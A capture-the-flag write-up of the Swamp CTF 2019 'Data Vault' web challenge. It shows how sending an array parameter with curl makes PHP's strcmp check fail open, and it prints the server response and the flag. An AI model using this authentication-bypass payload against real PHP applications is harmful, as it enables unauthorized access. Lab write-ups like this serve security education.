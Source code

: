 ```yaml
---
layout: posts
title:  Swamp CTF 2019 - Data Vault (Web)
date:   2019-04-07
categories: [CTFs, swamp19]
---
```


[~$ cd ..](/ctfs/swamp19/2019/04/07/index.html)

>Andrew, a data courier and PHP diehard, has secret data that he can't have falling into the ZaibatsuCorp's hands. Fortunately, we've established an online datalink with his wetware.
>
>We've exposed the module's access interface here: chal1.swampctf.com:1233
>
>Can you bypass his CraniumStorage security module before he wakes up?
>
>-= Created by andrewjkerr =-

We were facing a web page containing only a simple form.

![form](/assets/res/CTFs/swamp19/data_vault/form.png)

Source code of the page:

```html
<html>
<head>
    <!-- You won't find any help here :) -->
    <title>Andrew's Secret Image Storage!</title>
</head>
<body>
    <h1>Andrew's Secret Image Storage!</h1>
    <p>Hello visitor! If I, Andrew, have given the password to view my image, please enter it below. If not, please kindly leave this site. :)</p>
    <br />
    <form action="/" method="POST">
        <label>What's the password?</label>
        <input type="text" name="password" />
        <input type="submit" value="Submit" />
    </form>

    </body>
</html>
```

No `robots.txt` nor obvious files, no useful headers, not a trivial password. The solution (or one possible solution, at least) was actually to bypass the password checking by sending an array instead of a single password:

```bash
~$ curl --data "password[]=" http://chal1.swampctf.com:1233/
```

The response came back with the flag:

```html
<html>
<head>
    <!-- You won't find any help here :) -->
    <title>Andrew's Secret Image Storage!</title>
</head>
<body>
    <h1>Andrew's Secret Image Storage!</h1>
    <p>Hello visitor! If I, Andrew, have given the password to view my image, please enter it below. If not, please kindly leave this site. :)</p>
    <br />
    <form action="/" method="POST">
        <label>What's the password?</label>
        <input type="text" name="password" />
        <input type="submit" value="Submit" />
    </form>

    <br />
<b>Warning</b>:  strcmp() expects parameter 2 to be string, array given in <b>/var/www/html/index.php</b> on line <b>36</b><br />
<p>You got it! Here's your image:</p><img src='imgs/c3e04c47227f3aaffed3ae156f8de2f8ccaa5fb1a40e7b59f6a41dbfadb65a86.png' /><p>And here's your flag: flag{wHy_d03S-php_d0-T41S}</p></body>
</html>
```

FLAG: **flag{wHy_d03S-php_d0-T41S}**

and the secret image:

![hidden](/assets/res/CTFs/swamp19/data_vault/c3e04c47227f3aaffed3ae156f8de2f8ccaa5fb1a40e7b59f6a41dbfadb65a86.png)

EOF

